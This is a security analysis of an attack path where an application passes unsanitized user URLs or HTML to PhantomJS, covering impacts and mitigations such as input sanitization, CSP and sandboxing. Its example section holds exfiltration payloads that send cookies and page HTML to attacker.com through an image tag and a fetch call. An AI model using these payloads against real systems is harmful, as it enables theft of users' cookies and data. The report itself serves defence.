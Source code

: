 ## Deep Analysis of Attack Tree Path: Inject Malicious Content into PhantomJS

**Objective of Deep Analysis:**

The primary objective of this deep analysis is to thoroughly understand the attack path "Inject Malicious Content into PhantomJS -> Inject Malicious URL/HTML -> Application fails to sanitize input before passing to PhantomJS." This involves dissecting the attack vector, identifying the underlying vulnerabilities, analyzing potential impacts, and proposing effective mitigation strategies. We aim to provide actionable insights for the development team to secure the application against this specific type of attack.

**Scope:**

This analysis will focus specifically on the identified attack path and its variations. The scope includes:

* **Technical Analysis:** Examining the flow of data from user input to PhantomJS execution.
* **Vulnerability Assessment:** Identifying the specific weaknesses in the application's input handling.
* **Impact Assessment:** Evaluating the potential consequences of a successful attack.
* **Mitigation Strategies:**  Developing concrete recommendations to prevent this attack.
* **PhantomJS Context:** Understanding the execution environment and capabilities of PhantomJS in relation to the injected content.

This analysis will *not* cover other potential vulnerabilities in the application or PhantomJS itself, unless directly relevant to the identified attack path. We will assume a basic understanding of how PhantomJS is used within the application.

**Methodology:**

Our methodology for this deep analysis will involve the following steps:

1. **Detailed Breakdown of the Attack Path:**  We will break down each step of the attack path to understand the attacker's actions and the application's response.
2. **Code Flow Analysis (Conceptual):**  We will conceptually trace the flow of user input through the application's code to the point where it's passed to PhantomJS.
3. **Vulnerability Pattern Identification:** We will identify the specific coding patterns or lack thereof that allow this vulnerability to exist.
4. **Threat Modeling:** We will consider the attacker's motivations and capabilities in exploiting this vulnerability.
5. **Impact Scenario Development:** We will create realistic scenarios to illustrate the potential consequences of a successful attack.
6. **Mitigation Technique Evaluation:** We will evaluate various mitigation techniques based on their effectiveness, feasibility, and potential impact on application functionality.
7. **Best Practices Review:** We will align our recommendations with industry best practices for secure input handling and integration with external tools.

---

## Deep Analysis of Attack Tree Path: Inject Malicious Content into PhantomJS

**Attack Tree Path:** Inject Malicious Content into PhantomJS -> Inject Malicious URL/HTML -> Application fails to sanitize input before passing to PhantomJS

**Detailed Breakdown:**

1. **Inject Malicious Content into PhantomJS:** This is the overarching goal of the attacker. They aim to execute arbitrary code within the PhantomJS environment.

2. **Inject Malicious URL/HTML:** This is the specific method the attacker employs to achieve the goal in step 1. The attacker leverages the application's functionality to pass either a malicious URL or HTML content containing malicious scripts to PhantomJS.

3. **Application fails to sanitize input before passing to PhantomJS:** This is the core vulnerability that enables the attack. The application acts as a conduit, blindly passing user-provided input to PhantomJS without any form of validation, sanitization, or escaping.

**Step-by-Step Analysis:**

* **Attacker Action:** The attacker crafts a malicious input, which can be either a URL or HTML content. This input contains JavaScript code intended to be executed within the PhantomJS environment.

    * **Malicious URL Example:** `https://example.com/<script>/* malicious code */</script>` or `javascript:/* malicious code */` (if the application allows `javascript:` URLs).
    * **Malicious HTML Example:**
        ```html
        <h1>Report Generated</h1>
        <img src="https://attacker.com/steal_data?cookie=" + document.cookie>
        <script>
          // Malicious JavaScript to exfiltrate data or perform other actions
          fetch('https://attacker.com/log', {
            method: 'POST',
            body: JSON.stringify({ data: document.documentElement.outerHTML })
          });
        </script>
        ```

* **Application Vulnerability:** The application receives this user-provided input. Crucially, it lacks any mechanism to inspect, clean, or modify the input before passing it to PhantomJS. This could be due to:
    * **Lack of Input Validation:** The application doesn't check if the input conforms to expected formats or contains potentially harmful characters or scripts.
    * **Absence of Output Encoding/Escaping:** The application doesn't encode or escape special characters within the input that could be interpreted as code by PhantomJS.
    * **Trusting User Input:** The application implicitly trusts that user-provided input is safe and doesn't pose a security risk.

* **PhantomJS Execution:** The application passes the unsanitized URL or HTML content directly to PhantomJS for rendering or processing. PhantomJS, as a headless browser, will interpret and execute the JavaScript code embedded within the provided content.

* **Consequences within PhantomJS Context:** Once the malicious script executes within PhantomJS, the attacker can potentially:
    * **Access Local Resources:** Depending on PhantomJS's configuration and the operating system's permissions, the script might be able to access local files or system resources accessible to the PhantomJS process.
    * **Make Network Requests:** The script can initiate HTTP requests to external servers, potentially exfiltrating sensitive data or interacting with attacker-controlled infrastructure.
    * **Manipulate the Rendering Process:** The attacker could influence how PhantomJS renders the content, potentially leading to denial-of-service or unexpected behavior.
    * **Exfiltrate Data from the Rendered Page:** If PhantomJS is rendering content from another source, the malicious script could extract data from that page.
    * **Potentially Exploit PhantomJS Vulnerabilities:** While not the primary focus of this path, the injected script could potentially trigger vulnerabilities within PhantomJS itself.

**Potential Impacts:**

* **Data Exfiltration:** Sensitive information processed or rendered by PhantomJS could be stolen by sending it to an attacker-controlled server. This could include user data, application secrets, or internal system information.
* **Server-Side Request Forgery (SSRF):** The malicious script within PhantomJS could be used to make requests to internal network resources that are not directly accessible from the outside, potentially exposing internal services or data.
* **Denial of Service (DoS):** The attacker could inject scripts that consume excessive resources within the PhantomJS process, leading to performance degradation or crashes, effectively denying service to legitimate users.
* **Manipulation of Rendered Output:** The attacker could alter the rendered output generated by PhantomJS, potentially leading to misinformation or misrepresentation.
* **Abuse of Application Functionality:** If the application uses PhantomJS for specific tasks (e.g., generating reports, taking screenshots), the attacker could manipulate these tasks for malicious purposes.
* **Indirect Code Execution:** While not directly on the application server, the execution of malicious code within the PhantomJS context can still have significant security implications for the application and its users.

**Mitigation Strategies:**

To effectively mitigate this attack path, the development team should implement the following strategies:

1. **Strict Input Sanitization and Validation:**
    * **Whitelisting:** Define an explicit set of allowed characters, formats, and protocols for URLs and HTML content. Reject any input that doesn't conform to these rules.
    * **Output Encoding/Escaping:**  Before passing any user-provided input to PhantomJS, properly encode or escape special characters that could be interpreted as code. For HTML content, use HTML entity encoding. For URLs, ensure proper URL encoding.
    * **Contextual Escaping:**  Apply escaping techniques appropriate to the context where the input will be used within PhantomJS (e.g., JavaScript escaping if embedding within `<script>` tags).

2. **Content Security Policy (CSP):** Implement a strict CSP for the content rendered by PhantomJS. This can restrict the sources from which scripts can be loaded and other potentially dangerous actions.

3. **Sandboxing and Isolation:**
    * **Run PhantomJS in a Sandboxed Environment:**  Utilize operating system-level sandboxing or containerization technologies to isolate the PhantomJS process and limit its access to system resources.
    * **Principle of Least Privilege:** Ensure the PhantomJS process runs with the minimum necessary privileges.

4. **Regular Updates and Patching:** Keep PhantomJS and its dependencies up-to-date with the latest security patches to address known vulnerabilities.

5. **Avoid Passing Raw User Input Directly:**  Whenever possible, avoid directly passing user-provided input to PhantomJS. Instead, construct the content to be rendered programmatically, using trusted data sources.

6. **Security Audits and Code Reviews:** Conduct regular security audits and code reviews to identify and address potential vulnerabilities in input handling and integration with external tools like PhantomJS.

7. **Consider Alternatives to PhantomJS:** Evaluate if there are more secure alternatives to PhantomJS that better suit the application's needs, especially if security is a primary concern.

**Conclusion:**

The attack path "Inject Malicious Content into PhantomJS -> Inject Malicious URL/HTML -> Application fails to sanitize input before passing to PhantomJS" highlights a critical vulnerability stemming from inadequate input handling. By failing to sanitize user-provided input, the application opens itself up to the execution of arbitrary code within the PhantomJS environment, potentially leading to data exfiltration, SSRF, DoS, and other serious security breaches. Implementing robust input sanitization, output encoding, CSP, and sandboxing techniques are crucial steps to mitigate this risk and ensure the security of the application. The development team must prioritize secure coding practices and treat all user input as potentially malicious.